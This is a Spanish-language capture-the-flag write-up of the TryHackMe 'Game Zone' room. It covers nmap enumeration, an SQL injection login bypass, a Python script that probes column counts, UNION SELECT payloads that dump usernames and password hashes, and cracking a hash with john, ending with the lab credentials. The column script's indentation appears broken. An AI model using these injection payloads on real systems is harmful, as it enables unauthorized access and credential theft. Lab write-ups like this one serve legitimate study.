---
aliases:
  - Game Zone
Date: 20 Julio 2024
Platform: linux
Category: learning SQLI
Difficulty: Easy
tags:
  - Tryhachme
Status: Complete
IP: 10.10.190.112
---

## Improved skills
- OSINT
- SQLI
- enumeracion
- Localizacion de exploits
- python scripting

## Used tools
- nmap
- Google Images
- python
- bash
- netcat 

---

# Introduccion

Esta máquina es parte del aprendizaje en el camino para ser pentester. Por ende, nos van haciendo diferentes preguntas para completarla. 

Lo que nos solicitan es explotar una vulnerabilidad SQLI, ganar acceso a una app web, lograr acceso al equipo y una vez hagamos eso, escalar privilegios con metasploit. Yo no usare metasploit porque no es una herramienta permitida en la OSCP y por ende, trato de no usarla si no es el unico recurso para explotar la maquina y el mismo caso con sqlmap. estas herramientas automatizadas son de muchisima utilidad al momento de una auditoria real. Pero, en estos casos de aprendizaje, es mejor utilizar nuestro conocimiento para resolverlas. Pero, no se limiten a su uso si no estan en proceso de certificarse como yo. 

# Information Gathering

En la información de la máquina, no se nos entrega a qué plataforma nos enfrentamos.

Para saber a qué nos enfrentamos, podemos usar el comando _PING_ e identificar si es una máquina con Windows o Linux a través de su TTL.

En esta tabla, tenemos la equivalencia de qué sistema podemos estar enfrentando en base a su TTL:




Si aplicamos el comando ping: 

```bash
ping -c 1 10.10.190.112

PING 10.10.190.112 (10.10.190.112) 56(84) bytes of data.
64 bytes from 10.10.190.112: icmp_seq=1 ttl=61 time=286 ms

--- 10.10.190.112 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 285.775/285.775/285.775/0.000 ms
```

Según nuestra tabla, Linux, FreeBSD y Mac OS X utilizan un TTL de 64. En nuestro caso, aparece 61 como TTL, pero eso se debe a la cantidad de saltos que hacemos antes de alcanzar al servidor, y ahí se pierden unidades. Por ende, podemos concluir que nuestro objetivo es una máquina con Linux. Más adelante, podremos determinar si esto es cierto o no.

Ahora, realizaremos una enumeración activa del servidor con **nmap**.

```bash
sudo nmap --open -sS -p- --min-rate 5000 10.10.190.112
```

El resultado es el siguiente:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-20 13:57 EDT
Nmap scan report for 10.10.190.112
Host is up (0.29s latency).
Not shown: 57206 closed tcp ports (reset), 8327 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 20.03 seconds
```

Ahora enumeramos los puertos TCP abiertos:
```bash
sudo nmap -p22,80 -sCV 10.10.190.112

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-20 14:00 EDT
Nmap scan report for 10.10.190.112
Host is up (0.29s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.49 seconds

```

Como podemos ver, el resultado del escaneo, nos muestra en el puerto 22 esta descripcion: **Ubuntu 4ubuntu2.7** . Si buscamos en google por el resultado de launchpad.net nos encontramos con lo siguiente:


Todas las versiones de ubuntu tienen un nombre. En nuestro caso es Xenial que equivale a la version 16.04 de ubuntu. 

Tambien, si revisamos la version del ssh es vulnerable a la enumeracion de usuarios 


Si vemos, el exploit que podemos utilizar es el 40136 de exploit-db de offsec. Como esta maquina es de aprendizaje de SQLI, no vamos a explorar mas en esto. Pero, siempre tenemos que enumerar todo y hacerlo costumbre de cara a certificaciones como eCPPT u OSCP que solicitan un reporte tecnico y esto, **es importante notificarlo al cliente para una futura subsanacion**

Tambien, tenemos un CVE en el servidor apache:

https://nvd.nist.gov/vuln/detail/CVE-2019-0211

Pero, seguiremos con lo que nos esta solicitando tryhackme.  

A medida que vamos avanzando en estas etapas de enumeracion. Debemos revisar que nos va pidiendo tryhackme para ir resolviendo la maquina. Aqui, esta la primera parte:

la pregunta es: **What is the name of the large cartoon avatar holding a sniper on the forum?**
Para responder esto, primero debemos entrar en la web y ver que es lo que nos muestra:

Al entrar, es esto lo que podemos ver:


Ahora, necesitamos saber el nombre de ese sujeto afirmando el arma. Para ello, podemos revisar el nombre de la imagen y quizas tenga el nombre del sujeto o lo podemos buscar con google images. Intentemos la primera opcion:



Al intentar buscar nombres de las imagenes en la web, encontramos una carpeta que dice images/_image01.gif

Por lo que se puede leer, no tenemos una descripcion exacta del nombre asi que ahora necesitamos descargar la imagen y buscarla con google images. 

Si entramos a la carpeta images, vemos todas las imagenes que hay. Pero, la que nos interesa por ahora es : **images/header_image.png**

La descargamos y vamos a Google Images para realizar la busqueda:


Aqui podemos arrastrar la imagen en la url de images.google.com para hacer algun analisis de la misma. 


 Tenemos dos nombres. El primero es Hitman y el otro es Agent 47 y si nos devolvemos a la pregunta de tryhackme, veremos que nos ayuda al momento de ver el formato de la respuesta:


vemos que es de dos espacios por ende, la respuesta es:  **Agent 47**

---
# Exploitation
## SQLI

En la web, podemos ver que tenemos una seccion de login y de busqueda. Ambas nos pueden servir para realizar una inyeccion SQL asi que veremos como reacciona cada una a una inyeccion. 



Si es por el lado del login, lo que debemos lograr es que al no saber la clave de un usuario, podamos comentar esa linea a traves de la inyeccion y lograr pasar el login. 

Tryhackme nos explica algo sobre la inyeccion pero, esta es mi explicacion. Si quieren, pueden revisar la que esta en su web en este room: https://tryhackme.com/r/room/gamezone

Teniendo esta consulta:
```sql
SELECT * FROM users WHERE user_name='bob'
```

si el codigo del login fuera el siguiente:

```php
<?php

$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";

$result = mysqli_query($con, $sql_query);

?>

```

Segun ese codigo, **que no es el de esta web** y que revisaremos cuando la explotemos. Podemos ver que si como usuario ponemos bob' or 1=1 -- - no hay nada que nos impida hacerlo ya que no se filtra en ningun lado el input y ademas, el valor que nosotros escribimos pasa directamente a la consulta. Por ende, se puede configurar una inyeccion sql. 

Ahora, por que usamos "or 1=1" ?  porque con eso manipulamos la consulta de tal manera que siempre sea verdadera logrando modificar el comportamiento de la misma. En este caso, saltandonos la validacion de la clave del usuario

Veamos como aplicarlo:


Aqui le di una clave porque es una buena practica. Por lo que dice tryhackme no es necesario ponersela. Pero, la mayoria de formularios siempre tienen una validacion simple y no es malo ponerla para que no nos salte alguna validacion y nos de problemas. 


Le damos a enter y entramos a esta web:



Respondemos la respuesta: **When you've logged in, what page do you get redirected to?**
*portal.php*

Al entrar en esta web, ya tenemos una barra de busqueda y estas barras estan ligadas a un *Like*. La consulta podria ser algo asi. 

```sql
SELECT * FROM productos WHERE nombre LIKE '%manzana%';
```


Si buscamos  por hitman para ver que nos arroja, podemos ver lo siguiente:



Podemos ver que hace una peticion post con un campo que se llama searchitem y ahi le pasa el parametro que buscamos.

Ademas, vemos que la consulta nos devuelve 2 campos. Un campo con el titulo del juego y otro con la descripcion. Campos que son de texto por ende, podriamos probar hacer una inyeccion con solo dos campos para ver si nos entrega la version de la base de datos y el nombre. Saber esto es clave para seguir con nuestro ataque aunque tambien es clave saber cuantas columnas exactamente tiene la tabla.

si utilizo:

```sql
'order by 10 -- -
```

la respuesta que obtengo es: 

Dice que no conoce la columna y esto significa que la tabla no tiene 10 columnas. Otra cosa importante que estamos pasando por alto, es el tipo de vulnerabilidad que estamos explotando y es una inyeccion SQL basada en error. Saber esto es clave para posteriores payloads de **payloadallthethings** o para realizar busquedas por los errores que tengamos para conocer mas de la base de datos que estamos atacando.

Este script nos ayuda a saber la cantidad de columnas que tenemos en la tabla de manera automatizada. 

```python 
from pwn import *
import requests, signal, sys

def def_handler(sig,frame ):
	print("\n\n[*] Saliendo!")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def busqueda_columnas():
	url = "http://10.10.190.112/portal.php"
	
	headers = {
	"Host": "10.10.190.112",
	"Cache-Control": "max-age=0",
	"Upgrade-Insecure-Requests": "1",
	"Origin": "http://10.10.190.112",
	"Content-Type": "application/x-www-form-urlencoded",
	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, como Gecko) Chrome/125.0.6422.112 Safari/537.36",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
	"Referer": "http://10.10.190.112/portal.php",
	"Accept-Encoding": "gzip, deflate, br",
	"Accept-Language": "en-US,en;q=0.9",
	"Cookie": "PHPSESSID=a275k1lahp79v07sa9j7jn01e1",
	"Connection": "keep-alive"
	}
	
	p1 = log.progress("Buscando las columnas")
	for i in range(10, 2, -1):
		payload = f"searchitem='order+by+{i}+--+-"
		response = requests.post(url, headers=headers, data=payload)
		p1.status(f"buscando por {i} columnas")

	if "Unknown column" not in response.text:
		print(f"La tabla tiene {i} columnas")
		break

if __name__=='__main__':
	busqueda_columnas()
```

La salida al ejecutar este script es la siguiente:



Listo!, ya sabemos que la tabla tiene 3 columnas. Ahora, hay que ver cuales pueden ser inyectables y para eso vamos a utilizar un union select con los 3 campos e iremos reemplazando cada campo con un valor para ver cual es inyectable o no. 

Para ello haremos lo siguiente:

```sql
'union select null,null,null -- -
```

Algunas veces podemos poner 1,2,3 o en este caso intente solo con null por cada campo. La respuesta es la siguiente:


No hay ningun error y en consecuencia, podremos empezar a inyectar en los campos. Veamos la base de datos y su version:

```sql
'union select database(),version(),null -- -
```

Con esa consulta la salida es la siguiente:


Podemos concluir que a partir del segundo campo es inyectable. Comprobemos:

```sql
'union select null,version(),database() -- -
```

Como podemos ver, ahora si tenemos una salida en ambos campos de la tabla. Entonces, veamos todas las bases de datos que pueda tener. 


Si buscamos por la version de la base de datos en google, nos encontraremos con lo siguiente:


Es una base de datos mysql 5.7 en ubuntu xenial. Ahora, continuemos viendo las tablas con los campos que tiene con el siguiente comando:

```sql
' UNION SELECT NULL, table_name, concat(column_name, ' - ', table_name) FROM information_schema.columns WHERE table_schema=database() -- -
```

esto nos arroja lo siguiente:


vemos que existe la tabla **post** y **users** y podemos ver que la tabla que estamos revisando (post) tiene efectivamente 3 campos de los cuales 1 es numerico y es para el id y luego tenemos una tabla mas interesante que se llama users con un campo username y pwd. Veamos que tiene esa tabla users. 

```sql
' UNION SELECT NULL, username, pwd FROM users -- -
```



Nos muestra un nombre de usuario y un hash que parece ser sha-256. veamos si podemos crackearlo de forma simple en **crackstation**

si entramos a esta web: https://crackstation.net/ podremos ver este resultado al momento de poner el hash:



Como podemos ver, si pudimos romper ese hash y tenemos nuestra clave. Pero, si queremos hacerlo con john y rockyou  debemos utilizar los siguientes comandos:


```bash
touch hash && echo 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14' > hash
```

```bash
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt hash

Warning! john.conf section [list.rules:best64] is multiple declared.
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)     
1g 0:00:00:00 DONE (2024-07-21 02:20) 3.030g/s 8837Kp/s 8837Kc/s 8837KC/s vimivera..veluasan
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

Ahi obtenemos el resultado con john utilizando rockyou y la clave es: videogamer124

Tenemos las credenciales agent47:videogamer124

